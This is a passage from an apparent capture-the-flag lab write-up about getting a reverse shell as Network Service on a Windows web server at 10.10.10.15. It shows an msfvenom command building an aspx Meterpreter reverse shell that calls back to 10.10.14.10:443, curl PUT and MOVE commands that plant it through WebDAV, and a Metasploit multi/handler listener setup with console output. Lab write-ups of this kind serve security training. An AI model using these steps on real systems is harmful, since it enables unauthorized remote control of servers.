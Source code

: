 ### Reverse Shell as Netwrok Service
Generate an `aspx` reverse shell and upload it onto the web server.

#### MSFVenom
```shell
root@kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx > shell.aspx
```
![img](https://user-images.githubusercontent.com/83878909/270320264-c3c4c830-1a83-4773-9a6a-04f9665547a5.png)

```shell
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.aspx
curl -X MOVE -H 'Destination: http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.txt
```

#### Meterpreter
Start MSFConsole and setup listener.
```shell
root@kali# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.3.19-dev                          ]
+ -- --=[ 2318 exploits - 1215 auxiliary - 412 post       ]
+ -- --=[ 1234 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use the edit command to open the 
currently active module in your editor
Metasploit Documentation: https://docs.metasploit.com/

msf6>
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port
```